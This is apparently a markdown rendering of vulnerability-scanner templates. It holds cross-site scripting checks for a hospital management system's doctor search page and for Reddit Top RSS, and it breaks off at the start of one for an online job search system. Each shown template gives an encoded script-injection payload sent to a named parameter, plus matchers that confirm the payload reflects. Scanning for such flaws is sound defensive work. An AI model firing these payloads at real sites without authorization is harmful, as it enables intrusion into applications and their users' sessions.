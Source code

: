 ### Step - 2
```
POST /hms/doctor/search.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

searchdata=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&search=

```
### Matchers

**Type - dsl**
- dsl
    1. contains(all_headers_2, "text/html")
    2. status_code_2 == 200
    3. contains(body_2, 'Result against \"\<script>alert(document.domain)\</script>\" keyword')
- condition - and

---
# Reddit Top RSS - Cross-Site Scripting
## Description
- Reddit Top RSS contains a cross-site scripting vulnerability via the /?subreddit=news&score= parameter.

- severity - high
- tags - reddit,rss,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/?subreddit=news&score=2134%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- part - body
- words
    1. value="2134">\<script>alert(document.domain)\</script>" min="0"

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Complete Online Job Search System 1.0 - Cross-Site Scripting
## Description
- Complete Online Job Search System 1.0 contains a cross-site scripting vulnerability via index.php?q=advancesearch.
